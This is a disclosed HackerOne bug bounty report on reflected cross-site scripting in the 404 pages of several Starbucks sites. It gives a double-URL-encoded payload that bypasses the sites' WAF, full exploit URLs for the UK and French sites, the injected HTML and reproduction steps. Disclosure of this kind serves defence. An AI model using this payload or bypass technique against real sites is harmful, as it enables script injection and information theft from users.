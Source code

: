 # Reflected cross-site scripting on multiple Starbucks assets.

## Report Details
- **Report ID**: 629745
- **URL**: https://hackerone.com/reports/629745
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-06-26T07:05:03.094Z
- **Disclosed**: 2019-10-16T18:53:26.084Z

## Reporter
- **Username**: stealthy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Please indicate NA, if not applicable. Remember, the more detail you provide, the easier it is for us to verify and then potentially issue a bounty, so be sure to take your time filling out the report!

**Summary:** [Many Starbucks websites are vulnerable to cross-site scripting on 404 pages because double quotes lack sanitizing in hidden input tags, which leads to JavaScript execution.]

**Description:** [Starbucks employs a WAF which redirects any URL with a double quote to an error page. However, using double encoding, this can be bypassed. I used double encoding for most of the payload, which includes white spaces. My payload is below.

```text
htp8bi2zcg%2522%2520accesskey=%2527x%2527%2520onclick=%2527confirm`1`%2527%2520//2injectiontrme47nbfq/blonde/bright-sky-blend/ground=1
```
The payload is just the on click event with the access key set as x, and the rest of a Starbucks URL added as an arbitrary parameter to make sure the onclick event works.
```text
htp8bi2zcg" accesskey='x' onclick='confirm`1`' //2injectiontrme47nbfq/blonde/bright-sky-blend/ground=1
```
This vulnerability affects multiple Starbucks websites. Two are listed below.

    https://www.starbucks.co.uk/htp8bi2zcg%2522%2520accesskey=%2527x%2527%2520onclick=%2527confirm%601%60%2527%2520//2injectiontrme47nbfq/blonde/bright-sky-blend/ground=1

    https://www.starbucks.fr/htp8bi2zcg%2522%2520accesskey=%2527x%2527%2520onclick=%2527confirm%601%60%2527%2520//2injectiontrme47nbfq/blonde/bright-sky-blend/ground=1

The vulnerable HTML is below.
```html
<link rel="canonical" href="https://www.starbucks.co.uk/htp8bi2zcg" accesskey="x" onclick="confirm`1`" 2injectiontrme47nbfq="" blonde="" bright-sky-blend="" ground="1&quot;">
```
As you can see, the injection is successful.]

**Platform(s) Affected:** [Tested in Firefox Quantum 67.0.]

## Steps To Reproduce:

(Add details for how we can reproduce the issue)

1: Visit the link below.

    https://www.starbucks.fr/htp8bi2zcg%2522%2520accesskey=%2527x%2527%2520onclick=%2527confirm%601%60%2527%2520//2injectiontrme47nbfq/blonde/bright-sky-blend/ground=1

2: The key bind on MAC is CONTROL+ALT+X and on Windows is ALT+SHIFT+X.

## Supporting Material/References:

  * List any additional material (e.g. screenshots, logs, etc.)
{F516988}
██████


## How can the system be exploited with this bug?
Execute arbitrary JavaScript in a victim's browser to steal information or perform unwanted actions on the victim's behalf.

## How did you come across this bug ?
I was trying to bypass the double quote filter for SQL injection and came across this XSS when I looked at the HTML.

## Recommendations for fix
 
* Escape double quotes.

## Impact

JavaScript is against Starbucks users on multiple critical domains. JavaScript execution results in information theft and an attacker can perform unwanted actions on a victim's behalf.

## Attachments
- Screen_Shot_2019-06-25_at_11.41.40_PM.png
